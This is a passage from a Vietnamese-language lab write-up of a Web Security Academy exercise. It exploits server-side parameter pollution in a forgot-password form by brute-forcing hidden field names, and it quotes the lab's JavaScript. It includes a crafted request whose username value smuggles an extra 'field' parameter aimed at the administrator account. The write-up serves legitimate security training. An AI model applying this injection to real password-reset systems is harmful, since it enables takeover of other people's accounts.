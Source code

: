 ```bash
{"type":"ClientError","code":400,"error":"Invalid field."}
```

--> error: "Invalid field" 
-->Server có support parameter này

- Tiếp tục brute-force giá trị của field với list ở trên, ta lấy được 4 response bất thường: username, email, type, error. 

```bash
POST /forgot-password HTTP/2
Host: 0a68000404a93ba1807ed2d100960020.web-security-academy.net
Cookie: session=oHQs3tBIMJlaqhY23Nxwrhyczb80FMY9
Content-Length: 77
Content-Type: x-www-form-urlencoded
csrf=uT6nd0BmDi3D8fIFcqMXFLbDVGQwuoDM&username=administrator%26field=username
```

```bash
{"result":"administrator","type":"username"}
```

-Ta nhìn lại 1 đoạn JS ```"forgotPassword.js"``` để tìm hiểu cách hoạt động của chức năng forgot password:

```bash
let forgotPwdReady = (callback) => {
    if (document.readyState !== "loading") callback();
    else document.addEventListener("DOMContentLoaded", callback);
}

function urlencodeFormData(fd){
    let s = '';
    function encode(s){ return encodeURIComponent(s).replace(/%20/g,'+'); }
    for(let pair of fd.entries()){
        if(typeof pair[1]=='string'){
            s += (s?'&':'') + encode(pair[0])+'='+encode(pair[1]);
        }
    }
    return s;
}

const validateInputsAndCreateMsg = () => {
    try {
        const forgotPasswordError = document.getElementById("forgot-password-error");
        forgotPasswordError.textContent = "";
        const forgotPasswordForm = document.getElementById("forgot-password-form");
        const usernameInput = document.getElementsByName("username").item(0);
        if (usernameInput && !usernameInput.checkValidity()) {
            usernameInput.reportValidity();
            return;
        }
        const formData = new FormData(forgotPasswordForm);
        const config = {
            method: "POST",
            headers: {
                "Content-Type": "x-www-form-urlencoded",
            },
            body: urlencodeFormData(formData)
        };
        fetch(window.location.pathname, config)
            .then(response => response.json())
            .then(jsonResponse => {
                if (!jsonResponse.hasOwnProperty("result"))
                {
                    forgotPasswordError.textContent = "Invalid username";
                }
```